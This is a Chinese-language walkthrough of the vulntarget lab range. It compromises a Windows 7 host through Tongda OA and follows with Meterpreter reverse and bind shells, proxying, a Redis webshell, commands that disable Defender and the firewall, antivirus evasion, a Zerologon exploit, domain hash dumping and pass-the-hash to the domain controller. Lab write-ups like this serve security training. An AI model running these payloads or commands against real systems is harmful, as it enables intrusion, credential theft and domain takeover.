


# vulntarget漏洞靶场系列(一)


## 1.网络拓扑图：

```
windows 7开机密码 admin

windows server 2016 administrator开机密码admin@123      win2016 密码  admin#123

windows server 2019 密码   Admin@666
```


## 2.信息收集

### 2.1端口扫描

用`netdiscover`发现可疑IP为 192.168.59.171

masscan扫描快速扫描端口

```
masscan 192.168.59.171 -p  1-65535 --rate=1000
```

开放端口为：139 445 135 5357 80


继续用nmap 扫描端口对应的信息

```
nmap -sV 192.168.59.171 -p 139,445,5357,80 -O
```


### 2.2服务识别

80，  5357端口 是http服务，我们要在浏览器打开看下。

139端口是用于网络共享的端口，只有当一台计算机开放了TCP139端口时别的计算机才能访问其上的共享文件。但是在Windows 2000/ NT/ XP中，TCP139端口还有一个重要的作用：远程管理连接(IPC$,Admin$),这是微软为了方便管理员对远程计算机的管理而特意设置的。为了能够成功地建立`IPC$`(远程管理)连接，**你需要管理员的用户名和密码，只要我们得到了远程计算机的密码，再通过139端口进行IPC$连接，我们就完全控制了远程的计算机。**   ------攻击方向暴力破解


445端口： 看到Windows 7   和  445端口 就想到永恒之蓝漏洞  ms17-010

## 3.漏洞探测：

80端口 为通达OA

5357端口 打不开

### 3.1通达OA 版本识别

```
http://192.168.59.171/inc/expired.php   
```


通达OA 漏洞非常多，漏洞探测可以直接搜对应的版本号相关的漏洞  例如 搜 `通达OA11.3漏洞利用`

或者找对应的工具直接getshell

### 3.2永恒之蓝探测

直接metasploit 扫描，发现存在漏洞 这里就不展示永恒之蓝了


## 4.漏洞利用

### 1.永恒之蓝 getshell

### 2.通达OA getshell

漏洞比较多 我们用工具直接getshell

获取不到cookie 就手动填入， 选择文件包含getshell   一键利用


 用中国蚁剑连接：


## 5.后渗透阶段-信息收集

### 5.1内网信息收集

 **辨别当前用户是本地用户还是域用户？**

`ipconfig /all`命令  如果DNS地址是域名 肯定是域环境

```
ipconfig
honstname  
whoami
```


```
网卡1：192.168.59.171
网卡2：10.0.20.98
非域环境
```

### 5.2msfvenom 生成木马 获取shell

同时可以联动CS

```shell
msfvenom  -p  windows/x64/meterpreter/reverse_tcp LHOST=192.168.59.166 LPORT=4444 -f exe -o /home/kali/1.exe
```


生成的木马用中国蚁剑上传到Windows 7 目标机器




MSF开启监听  然后用蚁剑运行1.exe

```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set lhost eth0
lhost => 192.168.59.166
msf6 exploit(multi/handler) >run
```

通达OA 是系统权限，所以省去提权。


由于我们的权限较高，而且是64位的木马，所以这里我们可以不迁移进程。


### 5.3 *联动CS上线（可选）：


cs设置监听器 端口不要和msf一样

 payload选择 `windows/meterpreter/reverse_http`

msf操作：

```shell
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set session 1  # 这里为msf的session
set lhost eth0
set lport 4445
set disablepayloadhandler 1
run
```


## 6.添加路由 进一步扫描内网 

现在我们的kali 攻击机并不能扫描的到内网，也就是10.0.20.98 这台机器。

把kali获取到的session 挂在后台

```
bg     #或者是background
use post/multi/manage/autoroute   #添加路由
set session 1   #添加我们刚才挂在后台的 session
run
```

> 或者用这几条命令，没有什么区别
>
> run get_local_subnets  #获取目标内网相关信息
> run autoroute -s 10.0.20.0/24  #添加路由
> run autoroute -p    #查看路由


## 7.设置代理

```shell
use auxiliary/server/socks_proxy  #使用代理模块
msf6 auxiliary(server/socks_proxy) > options

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The address to listen on
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server


msf6 auxiliary(server/socks_proxy) >run   #不用设置什么 直接run即可
[*] Starting interaction with 1...

```

## 7-1.*设置代理 FRP方法（代理二选一）

------

项目地址：https://github.com/fatedier/frp

linux服务端：

```shell
[common]
bind_addr=0.0.0.0
bind_port=7080
token=admin123
```

 Windows 7受害者客户端：

```shell
[common]
server_addr = 192.168.32.130
server_port = 7080
token = admin123
tls_enable=true
pool_count=5
[plugin_socks] 
type = tcp 
remote_port = 4567
plugin = socks5 
plugin_user = admin
plugin_passwd = admin123
use_encryption = true 
use_compression = true
```

------

arp获取到内网同网段IP

```
sessions 1  
arp -a
```


进一步扫描内网：

```
use auxiliary/scanner/portscan/tcp
set rhost 10.0.20.0/24
set threads 20
run
```


目录扫描：

发现PHPINFO  打开页面，发现网站的绝对路径


## 8.内网信息收集

## 8.1nmap扫描

新开一个窗口用来扫描  速度很慢。

```

vim /etc/proxychains4
#编辑代理文件，最后的代理修改为：
socks5  127.0.0.1 1080


proxychains nmap -sT -A -Pn   10.0.20.99
```


  扫描速度很慢  ，发现6379端口。


6379端口为Redis服务


> redis 的作者，叫Salvatore Sanfilippo，来自意大利的西西里岛，居住在卡塔尼亚。目前供职于Pivotal公司。他使用的网名是antirez。
>
> 6379在是手机按键上MERZ对应的号码，而MERZ取自意大利歌女Alessia Merz的名字。MERZ长期以来被antirez及其朋友当作愚蠢的代名词。Redis作者antirez同学在twitter上说将在下一篇博文中向大家解释为什么他选择6379作为默认端口号。而现在这篇博文出炉，在解释了Redis的LRU机制之后，向大家解释了采用6379作为默认端口的原因


## 8.2代理扫描目录

```
proxychains4 dirb http://10.0.20.99
```


## 9.redis未授权访问漏洞getshell


redis未授权漏洞getshell需要知道网站绝对路径 


在MSF代理的窗口直接搜索redis，确认是否有漏洞

```
search redis
```


扫描未授权登陆  也就是redis-login


### 9.1. KALI  安装 redis-cli

```shell
wget http://download.redis.io/redis-stable.tar.gz
tar -zxvf redis-stable.tar.gz       #解压文件


cd redis-stable 
make             #编译文件  
cp src/redis-cli /usr/bin/
```


### 9.2.连接redis

连接的时候要挂上代理


### 9.3.redis未授权漏洞写webshell


路径为`C:/phpStudy/PHPTutorial/WWW/`


```shell
redis-cli -h 10.0.20.99

config set dir "C:/phpStudy/PHPTutorial/WWW/"
config set dbfilename 123.php
set 1 "<?php @eval($_POST['123']);?>"
save
```


## 10. 中国蚁剑连接 Windows server 2016

### 10.1设置代理：

代理要设置kali的地址，因为代理服务器是kali的 msf里面开启的一个功能


### 10.2 连接木马   

连接好几次才成功，不知道哪里的问题


## 11.域环境信息收集

看主DNS后缀，可以判断是域环境


**域信息收集**

以下命令只有域用户和本地administrator用户可使用，因为这些查询命令本质上都是通过 LDAP(LightweightDirectory Access Protocol) 协议去域控制器上查询的，查询的时候需要经过权限认证，当域用户执行查询命令时，会自动使用kerberos协议进行认证。本地用户是无法运行以下命令的（本地 administrator 用户除外。在域里面，除了普通用户，所有主机都有一个机器用户，用户名为机器名加“$”。system 用户对应的就是域里面的机器用户，而 administrator 可以直接提升为system用户，所以本地administrator用户也是可以运行以下域查询命令的）。

```powershell
net time /domain                            #查看时间服务器
net config workstation                      #查询当前登录域及登录用户信息
net user /domain                            #查询域内用户
wmic useraccount get /all                   #查询域内用户的详细信息
net user xie /domain                        #查看指定域用户xie的详细信息
net view /domain                            #查看有几个域
net view /domain:xxx                        #查看域内的主机
net group /domain                           #查看域里面的组
net group "domain users"  /domain           #查看域用户
net group "domain controllers" /domain      #查看域控制器
net group "domain computers" /domain        #查看域内所有的主机
net group "domain admins"  /domain          #查看域管理员,该组内的成员对域控拥有完全控制权
net group "enterprise admins" /domain       #查看企业管理组,该组内的成员对域控拥有完全控制权
net group "domain guest"  /domain           #查看域访客组,权限较低
 
nltest  /domain_trusts                      #查看域信任信息
net accounts /domain                        #查询域密码策略
whoami /user                                #查看用户SID和域SID，如用户的SID是：S-1-5-21-2189311154-2766837956-1982445477-520 则域SID则是去掉最后的520：S-1-5-21-2189311154-2766837956-1982445477
 
以下命令只能在域控服务器上查询
dsquery user                                #查询目录中的用户
dsquery computer                            #查询目录中的主机
dsquery group                               #查询目录中的组.
dsquery ou                                  #查询目录中的组织单元.
dsquery site                                #查询目录中的站点
dsquery server                              #查询域控
dsquery contact                             #查询目录中的联系人
dsquery subnet                              #查询目录中的子网
dsquery quota                               #查询目录中的配额规定.
dsquery partition                           #查询目录中的分区.
dsquery *                                   #用通用的LDAP查询来查找目录中的任何对 
dsquery server –domain xie.com | dsget server–dnsname –site     #搜索域内域控制器的DNS主机名和站点名
dsquery computer domainroot –name -xp –limit 10      #搜索域内以-xp结尾的机器10台
dsquery user domainroot –name admin -limit           #搜索域内以admin开头的用户10个
```

 查询域控的主机名

```powershell
方法一：net group "domain controllers" /domain       #这里查询结果后面会多一个 $ 
方法二：nltest /DCLIST:xxxx.com
方法三：net time /domain 
方法四：nslookup -type=srv _ldap._tcp
方法五：查看DNS服务器的地址，一般DNS服务器的IP就是域控的地址
方法六：netdom query pdc                             #该命令只能在域控上执行
方法七：dsquery server                               #该命令只能在域控上执行
```


## 12.MSF生成木马

### ~~1.反向连接：（失败）~~

lhost填写 windows 7的内网地址

```
 msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.0.20.98  lport=5555 -f exe -o /home/kali/55.exe
```

把木马上传到 windows server 2016服务器


没反应


不知道什么原因老断开  不得不放弃


### 2.正向连接：

```powershell
#关闭Windows defend杀毒软件
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /d 1 /t REG_DWORD /f
```

```
关闭防火墙：netsh firewall set opmode mode=disable
关闭防火墙： netsh advfirewall set allprofiles state off
查看防火墙状态： netsh advfirewall show allprofiles
```


目标机器有比较老的杀软 关不掉，编码30次即可绕过   （如果是最新的杀软百分百绕不过去）

```
msfvenom -p windows/meterpreter/bind_tcp lport=6666  -e x86/shikata_ga_nai -i 30 -f exe -o bind.exe
set payload windows/meterpreter/bind_tcp
set rhost 10.0.20.99
set lport 5555
run
```

如果生成的木马还是被杀 


## 13.获取域控权限

### 1.信息收集

```powershell
net group "domain controllers" /domain
net time /domain
run post/windows/gather/enum_domain     
```


```
arp
```


### 2.添加路由


### 3.设置代理

```
meterpreter>bg
use auxiliary/server/socks_proxy
run
```


4.nmap 扫描 域控

测试nmap是否连接成功

```
proxychains nmap -Pn -sT -A -T4  10.0.10.110 -p 445
```



## 14.提权到域控  CVE-2020-1472


### 14.1简介


2020年8月11号，微软修复了Netlogon 特权提升漏洞，2020年9月11日，安全研究员Secura发布了公告，阐明了漏洞细节，之后相关的EXP也就被构造出来。该漏洞也称为“Zerologon”，CVSS评分为10.0，号称3秒撸域控，危害严重。攻击者在通过NetLogon（MS-NRPC）协议与AD域控建立安全通道时，可利用该漏洞将AD域控的计算机账号密码置为空，从而控制域控服务器。

### 14.2漏洞原理

> Netlogon使用的AES认证算法中的vi向量默认为0，导致攻击者可以绕过认证，可以向域发起Netlogon 计算机账户认证请求, 使用8字节全0 client challenge 不断尝试得到一个正确的8字节全0 client credential 通过认证，再通过相关调用完成对域控密码的修改。
>  具体细节可查看[https://www.cynet.com/zerologon/](https://links.jianshu.com/go?to=https%3A%2F%2Fwww.cynet.com%2Fzerologon%2F)

### 14.3影响版本

Windows Server 2008 R2 for x64-based Systems Service Pack 1
 Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
 Windows Server 2012
 Windows Server 2012 (Server Core installation)
 Windows Server 2012 R2
 Windows Server 2012 R2 (Server Core installation)
 Windows Server 2016
 Windows Server 2016 (Server Core installation)
 Windows Server 2019
 Windows Server 2019 (Server Core installation)
 Windows Server, version 1903 (Server Core installation)
 Windows Server, version 1909 (Server Core installation)
 Windows Server, version 2004 (Server Core installation)


**下载漏洞利用模块**

```
git clone https://github.com/dirkjanm/CVE-2020-1472
cd CVE-2020-1472
proxychains4 python cve-2020-1472-exploit.py WIN 10.0.10.110
```


### 14.4获取HASH

使用impacket包中的secretsdum.py来获取相关的HASh

**kali安装impacket 工具包**

```
git clone https://github.com/SecureAuthCorp/impacket.git
python setup.py build && python setup.py install
```


CVE-2020-1472利用方法：

先抓取密码hash：

```
#python3 secretsdump.py DOMAIN/DC_NETBIOS_NAME\$@DC_IP_ADDR -no-pass
                                           域控        /域控主机名                       域控IP
                                           
proxychains4 impacket-secretsdump vulntarget.com/WIN2019\$@10.0.10.110 -no-pass
```


抓取的密码hash为：

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c7c654da31ce51cbeecfef99e637be15:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a3dd8e4a352b346f110b587e1d1d1936:::
vulntarget.com\win2016:1601:aad3b435b51404eeaad3b435b51404ee:dfc8d2bfa540a0a6e2248a82322e654e:::
WIN2019$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN2016$:1602:aad3b435b51404eeaad3b435b51404ee:0edd9a54036798d9689cd1ddea17e1b2:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:70a1edb09dbb1b58f1644d43fa0b40623c014b690da2099f0fc3a8657f75a51d
Administrator:aes128-cts-hmac-sha1-96:04c435638a00755c0b8f12211d3e88a1
Administrator:des-cbc-md5:dcc29476a789ec9e
krbtgt:aes256-cts-hmac-sha1-96:f7a968745d4f201cbeb73f4b1ba588155cfd84ded34aaf24074a0cfe95067311
krbtgt:aes128-cts-hmac-sha1-96:f401ac35dc1c6fa19b0780312408cded
krbtgt:des-cbc-md5:10efae67c7026dbf
vulntarget.com\win2016:aes256-cts-hmac-sha1-96:e4306bef342cd8215411f9fc38a063f5801c6ea588cc2fee531342928b882d61
vulntarget.com\win2016:aes128-cts-hmac-sha1-96:6da7e9e046c4c61c3627a3276f5be855
vulntarget.com\win2016:des-cbc-md5:6e2901311c32ae58
WIN2019$:aes256-cts-hmac-sha1-96:092c877c3b20956347d535d91093bc1eb16b486b630ae2d99c0cf15da5db1390
WIN2019$:aes128-cts-hmac-sha1-96:0dca147d2a216089c185d337cf643e25
WIN2019$:des-cbc-md5:01c8894f541023bc
WIN2016$:aes256-cts-hmac-sha1-96:100d74b72d7c042108e3f351a35e96927fa867ce6fe574671058071159422ea2
WIN2016$:aes128-cts-hmac-sha1-96:b4c4c34a26116f7789b3dd441306e4e4
WIN2016$:des-cbc-md5:83e5376231adce2a
[*] Cleaning up...

```

## 15.拿下域控

获取HASH后，可以利用impacket-smbexec登录，从而获取一个Shell

```shell
#proxychains4  impacket-smbexec -hashes <HASH> DOMAIN/DOMAIN_USER@DC_IP_ADDR
proxychains4  impacket-smbexec -hashes aad3b435b51404eeaad3b435b51404ee:c7c654da31ce51cbeecfef99e637be15 administrator@10.0.10.110
```


